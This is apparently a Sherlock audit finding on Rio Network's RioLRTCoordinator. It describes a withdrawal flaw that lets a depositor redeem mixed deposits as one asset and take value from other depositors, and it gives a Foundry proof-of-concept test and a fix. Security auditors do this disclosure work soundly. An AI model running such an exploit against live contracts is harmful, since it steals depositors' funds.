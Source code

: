 Cold Ocean Caribou

high

# Direct Assets theft of depositors.

## Summary
### Direct Assets theft of depositors.

https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99-L116

## Vulnerability Detail

An attacker can steal other depositors tokens and can make a very good profit in each epoch.
The vulnerability occurs when the attacker deposits rETH and cbETH and he get RioTokens tokens for rETH/cbETH.
now when attacker wants to redeem his tokens. He can redeem all of them as rETH or cbETH, 
which means he can use all his RioTokens to redeem rETH only or cbETH only.

lets assume this scenario:

1) alice deposit 25 ether rETH and 25 ether cbETH.
2) bob deposit 25 ether rETH and 25 ether cbETH.
3) fox deposit 48 ether rETH and 10 ether cbETH.
4) now fox calls RioLRTCoordinator::requestWithdrawal to request withdraw cbETH.
```solidity 
    uint256 fox_amountOutcbETH = reLST.coordinator.deposit(CBETH_ADDRESS, 10 ether);
    uint256 fox_amountOutrETH  = reLST.coordinator.deposit(RETH_ADDRESS, 48 ether);
    // @audit fox wil withdraw cbETH amount + rETH amount as cbETH only.
    reLST.coordinator.requestWithdrawal(CBETH_ADDRESS, this_amountOutrETH + this_amountOutcbETH);
```

5) after rebalance fox calls claimWithdrawalsForEpoch to claim his tokens.
6) now fox will get cbETH/rETH more that he deposited ~= 2 ether rETH about 6500 USD as profit.

POC:
put this test in RioLRTCoordinator.t.sol

```solidity 
    function test_TokensTheft() public {
        setApprove(); 

        vm.startPrank(alice); 
          uint256 alice_amountOutcbETH = reLST.coordinator.deposit(CBETH_ADDRESS, 25 ether);
          uint256 alice_amountOutrETH = reLST.coordinator.deposit(RETH_ADDRESS, 25 ether);
        vm.stopPrank(); 

        vm.startPrank(bob); 
          uint256 bob_amountOutcbETH = reLST.coordinator.deposit(CBETH_ADDRESS, 25 ether);
          uint256 bob_amountOutrETH = reLST.coordinator.deposit(RETH_ADDRESS, 25 ether);
        vm.stopPrank(); 

        vm.startPrank(fox); 
          uint256 this_amountOutcbETH = reLST.coordinator.deposit(CBETH_ADDRESS, 10 ether);
          uint256 this_amountOutrETH  = reLST.coordinator.deposit(RETH_ADDRESS, 48 ether);
          // @audit fox wil withdraw cbETH amount + rETH amount as cbETH only.
          reLST.coordinator.requestWithdrawal(CBETH_ADDRESS, this_amountOutrETH + this_amountOutcbETH);
        vm.stopPrank(); 

        vm.prank(EOA, EOA); 
        reLST.coordinator.rebalance(CBETH_ADDRESS);

        vm.startPrank(fox); 
          reLST.withdrawalQueue.claimWithdrawalsForEpoch(
              IRioLRTWithdrawalQueue.ClaimRequest({asset: CBETH_ADDRESS, epoch: 0})
          );
        vm.stopPrank(); 


        uint256 cbETHBalance = cbETH.balanceOf(fox); 
        uint256 rETHBalance = rETH.balanceOf(fox); 

        // @audit fox has 100 cbETH and 100 rETH but after claimWithdrawalsForEpoch
        // now he has 150 cbETH and ~= 52 rETH which means he got 2 ether extra.
        require(cbETHBalance + rETHBalance > 200 ether, "Test Get More Tokens Failed!!!"); 

        console.log("cbETH Balance:", cbETHBalance); 
        console.log("rETH Balance :", rETHBalance); 
    }

    function setApprove() public {
        cbETH.approve(address(reLST.coordinator), 100 ether);
        rETH.approve(address(reLST.coordinator), 100 ether);

        bob = address(0xbbbbb); 
        fox = address(0xccccc);
        alice = address(0xaaaaa);

        cbETH.transfer(alice, 50 ether); 
        rETH.transfer(alice, 50 ether);

        cbETH.transfer(bob, 50 ether); 
        rETH.transfer(bob, 50 ether);

        cbETH.transfer(fox, 100 ether); 
        rETH.transfer(fox, 100 ether);

      vm.startPrank(fox); 
        cbETH.approve(address(reLST.coordinator), 100 ether);
        rETH.approve(address(reLST.coordinator), 100 ether);
      vm.stopPrank(); 

      vm.startPrank(alice); 
        cbETH.approve(address(reLST.coordinator), 100 ether);
        rETH.approve(address(reLST.coordinator), 100 ether);
      vm.stopPrank(); 

      vm.startPrank(bob); 
        cbETH.approve(address(reLST.coordinator), 100 ether);
        rETH.approve(address(reLST.coordinator), 100 ether);
      vm.stopPrank(); 
    }
```


## Impact

bad actor can make profit up to 2 ether rETH/cbETH in each Epoch.

## Code Snippet

## Tool used
Manual Review

## Recommendation
track how many cbETH/rETH users has deposited, and base on that let him redeem cbETH/rETH.
ie: if alice deposit 5e18 rETH and 5e18 cbETH track how many tokens he deposited as rETH/cbETH
and if she tries to redeem all of her RioTokens as cbETH it will revert.
